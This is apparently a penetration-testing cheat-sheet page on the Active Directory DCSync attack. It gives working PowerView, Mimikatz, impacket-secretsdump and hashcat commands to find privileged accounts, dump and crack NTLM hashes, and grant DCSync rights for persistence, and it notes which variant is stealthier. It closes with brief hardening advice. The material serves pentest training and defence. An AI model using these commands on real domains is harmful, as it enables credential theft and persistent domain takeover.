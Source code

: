 # DCSync Attack
---

## Prerequisites

- Domain account with *Replicating Directory Changes*, *Replicating Directory Changes All*, and Re*plicating Directory Changes in Filtered Set* rights. By default, members of the *Domain Admins*, *Enterprise Admins*, and *Administrators* groups have these rights assigned.

## Vulnerability

A user who has domain permissions listed above can act like a Domain Controller and ask another Domain Controller to replicate Active Directory objects. It will use MS-DRSR protocol which can not be disabled. Therefore, if you manage to compromise such an account, you'll be able to retrieve NTLM hash of any domain account.

## Exploit

If you already compromised an initial low privileged account, you can enumerate domain users which can perform DCSync attacks by using [BloodHound](https://github.com/BloodHoundAD/BloodHound) or [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```bash
# With PowerView from a domain joined computer.
Get-ObjectAcl -DistinguishedName "dc=$company,dc=$com" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

To obtain the NTLM hash of a single targeted user using a DCSync attack, use [Mimikatz](https://github.com/gentilkiwi/mimikatz) or [impacket-secretsdump](https://github.com/fortra/impacket).

```bash
# From a domain joined Windows computer, with Mimikatz.
lsadump::dcsync /user:$domain\$target

# From Kali.
impacket-secretsdump -just-dc-user $target $domain/$username:$password@$dc_ip
```

{: .warning }
> You can also dump the entire NTDS.dit, but it's less stealthy.

Once you get the NTLM hash of your target user, you can:
* Crack it using `hashcat -m 1000`.
* Perform [Pass the Hash](/ad/passthehash/).

## Persistence

If you are Domain Administrator, you can grant any domain user DCSync rights.

```bash
# From a domain joined computer with PowerView.
Add-ObjectAcl -TargetDistinguishedName "dc=$company,dc=$com" -PrincipalSamAccountName $username -Rights DCSync -Verbose
```

## Recommendations

- [ ] Disable *Replicating Directory Changes*, *Replicating Directory Changes All*, and *Replicating Directory Changes in Filtered Set* rights for domain users who don't need them.
- [ ] Enforce EDR on Domain Controllers to detect and block DCSync attacks.